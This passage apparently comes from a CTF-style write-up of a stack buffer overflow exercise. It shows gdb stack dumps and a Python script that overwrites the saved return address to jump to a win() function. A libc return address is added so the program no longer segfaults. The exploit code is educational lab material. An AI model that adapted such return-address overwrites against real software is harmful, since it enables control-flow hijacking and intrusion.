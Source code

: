 ```bash
```

## Mitigating segfault

Now, this is extra, the reason there is a segfault because after we craft the `win()` address at the buffer where `ret` will be redirected to it, the address we need to put some credible address after it so that when we jump into `win()` it knows where to return, in above case we didn't gave anything `0x00000000`.

```as
(gdb) 
esp            0xbffff7a4	0xbffff7a4
ebp            0xbffff7bc	0xbffff7bc
eip            0x80483fa	0x80483fa <win+6>
0xbffff7a4:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b4:	0x41414141	0xbffff838	0xbffff838	0x00000000
0xbffff7c4:	0xbffff864	0xbffff86c	0xb7fe1848	0xbffff820
0xbffff7d4:	0xffffffff	0xb7ffeff4	0x0804824b	0x00000001
0xbffff7e4:	0xbffff820	0xb7ff0626	0xb7fffab0	0xb7fe1b28
0xbffff7f4:	0xb7fd7ff4	0x00000000	0x00000000	0xbffff838
0xbffff804:	0x1b3189c9	0x31667fd9	0x00000000	0x00000000
0x80483fa <win+6>:	mov    DWORD PTR [esp],0x80484e0
0x8048401 <win+13>:	call   0x804832c <puts@plt>
0x8048406 <win+18>:	leave  

(gdb) ni
esp            0xbffff7c0	0xbffff7c0
ebp            0xbffff838	0xbffff838
eip            0x8048407	0x8048407 <win+19>
0xbffff7c0:	0x00000000	0xbffff864	0xbffff86c	0xb7fe1848
0xbffff7d0:	0xbffff820	0xffffffff	0xb7ffeff4	0x0804824b
0xbffff7e0:	0x00000001	0xbffff820	0xb7ff0626	0xb7fffab0
0xbffff7f0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff800:	0xbffff838	0x1b3189c9	0x31667fd9	0x00000000
0xbffff810:	0x00000000	0x00000000	0x00000001	0x08048340
0xbffff820:	0x00000000	0xb7ff6210	0xb7eadb9b	0xb7ffeff4
0x8048407 <win+19>:	ret    
0x8048408 <main>:	push   ebp
0x8048409 <main+1>:	mov    ebp,esp
```
as you can see on instruction `win+19: ret` the top stack is `0x00000000`, let's try to replace it with address `0xb7eadc76` which is just `__libc_start_main+230`. Here is the updated script:
```py
import string
import struct

payload = ""

for i, c in enumerate(string.ascii_uppercase):
    if (int(i) + 1) * 4 == 76:
        break
    payload += c * 4

win_address = struct.pack("I",0x080483f4)
caller = struct.pack("I",0xb7eadc76)
prev_ebp = struct.pack("I",0xbffff838)
payload += prev_ebp + win_address + caller
print(payload)
```
also note that there is new variable `prev_ebp` it's just the `ebp` in `__libc_start_main`, it's not necessary though.
